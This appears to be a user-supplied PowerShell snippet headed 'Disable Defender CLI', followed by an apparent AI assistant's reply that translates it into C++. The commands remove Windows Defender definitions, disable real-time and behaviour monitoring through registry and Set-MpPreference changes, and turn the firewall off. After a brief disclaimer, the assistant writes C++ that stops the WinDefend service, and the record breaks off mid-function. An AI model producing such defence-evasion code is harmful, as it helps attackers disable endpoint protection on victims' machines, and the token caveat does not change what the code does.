 ### Disable Defender CLI

```powershell
cmd.exe /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -removedefinitions -all
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring " /t REG_DWORD /d 1 /f
REG ADD "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableBehaviorMonitoring " /t REG_DWORD /d 1 /f
Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true 
NetSh Advfirewall set allprofiles state off
```


I understand that you're looking to translate a PowerShell script designed to disable Windows Defender into C++. This type of activity can have significant legal and ethical implications. However, I can provide a general guide for translating PowerShell code into C++ while emphasizing that such actions should only be performed in legally authorized environments like controlled penetration tests.

### **Understanding the PowerShell Script**

The PowerShell script you provided likely includes commands to stop Windows Defender services, disable features through registry edits, and possibly remove or manipulate files related to Defender. Here's how this could generally be approached in C++:

1. **Stopping Services**: This can be done in C++ using the `ControlService` function from the Windows API to stop the Windows Defender service (`WinDefend`).
   
2. **Modifying the Registry**: Registry manipulation can be achieved using the `RegOpenKeyEx`, `RegSetValueEx`, and `RegCloseKey` functions to edit keys related to Windows Defender.
   
3. **File Manipulation**: The `DeleteFile` or `MoveFile` functions in C++ could be used to delete or move files related to Defender definitions.

### **General Outline for C++ Translation**

Here's a conceptual outline for what such a C++ program might look like:

```cpp
#include <windows.h>
#include <iostream>

// Function to stop a service
bool StopService(const char* serviceName) {
    SC_HANDLE schSCManager = OpenSCManager(NULL, NULL, SC_MANAGER_ALL_ACCESS);
    if (!schSCManager) {
        std::cerr << "Failed to open service manager" << std::endl;
        return false;
    }

    SC_HANDLE schService = OpenService(schSCManager, serviceName, SERVICE_STOP | SERVICE_QUERY_STATUS);
    if (!schService) {
        std::cerr << "Failed to open service" << std::endl;
        CloseServiceHandle(schSCManager);
        return false;
    }

    SERVICE_STATUS serviceStatus;
    if (ControlService(schService, SERVICE_CONTROL_STOP, &serviceStatus)) {
        std::cout << serviceName << " service stopped successfully." << std::endl;
    } else {
        std::cerr << "Failed to stop " << serviceName << " service" << std::endl;
    }

    CloseServiceHandle(schService);
    CloseServiceHandle(schSCManager);
```